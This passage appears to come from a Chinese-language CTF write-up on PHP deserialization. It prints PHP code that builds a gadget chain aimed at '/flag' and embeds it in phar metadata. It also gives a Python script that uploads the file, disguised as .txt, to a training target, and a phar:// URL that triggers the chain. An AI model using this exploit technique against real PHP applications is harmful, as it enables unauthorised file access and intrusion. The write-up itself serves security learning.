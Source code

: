 ```php
$lets->mak4r1='asc';
$new_lets1=new lets();
$go = new go();
$go->ed_xinhu=new lets();
$go->ed_xinhu->errmis='/flag';
$new_lets1->ech0=$go;
$lets->rocket=$new_lets1;
$ray->pankas=$lets;

//生成phar文件
@unlink("phar.phar");    //删除之前的phar.phar文件(如果有)
$phar = new Phar("phar.phar");
$phar->startBuffering();            //开始写文件
$phar->setStub("<?php __HALT_COMPILER(); ?>");    //写入stu头部信息
$phar->setMetadata($ray);    //重点！！将构造好的链子写入meta-data也就是manifest字段，这里会自动进行序列化，因此传入链头就行。其实可以理解为serialize（$o）;
$phar->addFromString("phar.txt", "phar");
$phar->stopBuffering();

//本地测试
//$serialized = serialize($ray);//在本地序列化观察一下序列化的结果
//echo $serialized;
//unserialize($serialized);//可以在本地测试一下是否成功

highlight_file(__FILE__);
?>
```

先根据源码文件上传部分的限制，修改 phar 文件的后缀变为 txt，然后用 python 发送文件到靶机

```python
import requests

url = "http://e12a0360-5b3b-412a-a898-6edf2af3f94a.training.0rays.club:8001/"
file = open("phar.txt",'rb')
res = requests.post(url, files={"user_note":file})
print(res.text)
```

上传成功返回上传文件的重命名名称，最后利用 phar 伪协议 `phar://` 访问文件触发反序列化即可

`http://（靶机）/index.php?note=phar:///notes/（重命名的文件名.txt）`

![](/img/PHP反序列化小结/2.png)
